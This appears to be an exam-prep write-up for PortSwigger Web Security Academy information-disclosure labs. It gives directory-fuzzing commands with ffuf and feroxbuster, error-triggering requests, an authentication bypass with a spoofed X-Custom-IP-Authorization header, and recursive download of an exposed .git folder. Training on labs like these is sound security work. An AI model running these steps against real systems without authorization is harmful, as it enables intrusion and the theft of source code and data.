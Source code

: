 # Content Discovery

https://portswigger.net/web-security/all-labs#information-disclosure

###
Looking for  robots.txt or sitemap.xml git etc.. That can reveal content.

```
 wget https://raw.githubusercontent.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/main/wordlists/burp-labs-wordlist.txt
 ffuf -c -w ./burp-labs-wordlist.txt -u https://TARGET.web-security-academy.net/FUZZ

 sudo apt install feroxbuster
 export WORDLIST=/usr/share/wordlists/seclists/Discovery/Web-Content/common.txt

 feroxbuster -u https://example.com -w $WORDLIST -t 50 --filter-status 403,404 -d 20 -o result.txt


```

### Lab: Information disclosure in error messages

```
-->  Try to send string parameter insted of integer's.
     - GET /product?productId=1
     - GET /product?productId="XYZZ"

```

###  Lab: Information disclosure on debug page

```
-->  Use feroxbuster to find  contains.
     -  feroxbuster -u https://target.com -w $wordlists -t 50 --filter-status 403,404 -d 20 : output:: target.com/cgi-bin/phpinfo.php

     -  Use BurpSuite Engagement tools to find Discover contetnt  :: cgi-bin/phpinfo.php 

```
![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/01.png)


### Lab: Source code disclosure via backup files

```
--> Use feroxbuster to find  /backup/ProductTemplate.java.bak
    - feroxbuster -u https://0aea008304f8868380ae35d600eb00e3.web-security-academy.net/ -w $WORDLIST -t 50 --filter-status 403,404 -d 2 ::  /backup/ProductTemplate.java.bak
``` 


### Lab: Authentication bypass via information disclosure

```
-->  browse to GET /admin
     - TRACE /admin
     - Add this (X-Custom-IP-Authorization: 127.0.0.1)  in proxy match & replcae . 

```
![alt text](https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Images/2.png)





### Lab: Information disclosure in version control history

```
--> Use feroxbuster to find git Directory.
    - Download the folder 
    - wget -r https://0ac400630483e3c7803ae94e006c002a.web-security-academy.net/.git/

	- git status 
	- git logs
	- git show <commit-id>

```